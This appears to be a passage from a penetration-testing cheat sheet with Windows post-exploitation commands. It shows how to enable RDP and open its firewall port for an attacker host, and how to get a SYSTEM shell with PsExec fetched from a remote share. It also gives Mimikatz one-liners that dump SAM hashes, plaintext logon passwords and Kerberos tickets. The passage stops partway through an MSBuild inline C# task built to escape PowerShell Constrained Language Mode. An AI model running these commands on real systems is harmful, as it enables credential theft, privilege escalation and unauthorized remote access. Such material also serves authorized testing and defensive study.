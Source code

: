 #### Enable RDP from CLI

- https://support.moonpoint.com/os/windows/software/remote-control/rdp/rdp-registry.php

```
net localgroup "Remote Desktop Users" /add pentest
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netstat -ano | find "3389"
netsh firewall set portopening protocol = TCP port = 3389 name = "RDP" mode = ENABLE scope = CUSTOM $LHOST
rdesktop $IP -u pentest -p Pentest1!
```

#### Admin to System

```
PsExec.exe -s -i cmd.exe
```

- https://twitter.com/cyb3rops/status/1448208520680284164

```
\\live.sysinternals.com\tools\PsExec.exe -s -c cmd.exe
```

#### Mimikatz one liner

```
mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
mimikatz.exe "privilege::debug" "sekurlsa::tickets" "exit"
```

#### Escape PowerShell CLM

```csharp
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
     <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Linq;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;

            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    using (var runspace = RunspaceFactory.CreateRunspace())
                    {
                      runspace.Open();

                      using (var posh = PowerShell.Create())
                      {
```